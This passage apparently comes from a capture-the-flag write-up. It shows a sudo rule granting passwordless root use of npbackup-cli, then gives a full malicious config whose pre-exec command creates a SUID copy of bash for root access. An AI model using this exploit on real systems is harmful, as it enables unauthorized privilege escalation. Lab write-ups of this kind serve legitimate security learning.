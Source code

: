 ```plaintext
sudo -l
```

Output:

```plaintext
(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

This custom tool is group-accessible and supports

```plaintext
pre_exec_commands
```

in its config.

## Exploit npbackup-cli

Create a malicious config

```plaintext
/dev/shm/pwn.yml
```

:

```plaintext
cat >/dev/shm/pwn.yml <<'YML'
conf_version: 3.0.1
repos:
  default:
    repo_uri: /dev/shm/repo
    repo_group: default_group
    backup_opts:
      paths:
      - /etc
      source_type: folder_list
    repo_opts:
      repo_password: "haxpass"
      retention_policy: {}
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      pre_exec_commands:
        - /bin/sh -c 'cp /bin/bash /tmp/broot && chmod u+s /tmp/broot'
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
identity:
  machine_id: exploit
  machine_group: exploit
global_prometheus:
  metrics: false
  instance: exploit
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
YML
chmod 666 /dev/shm/pwn.yml
```
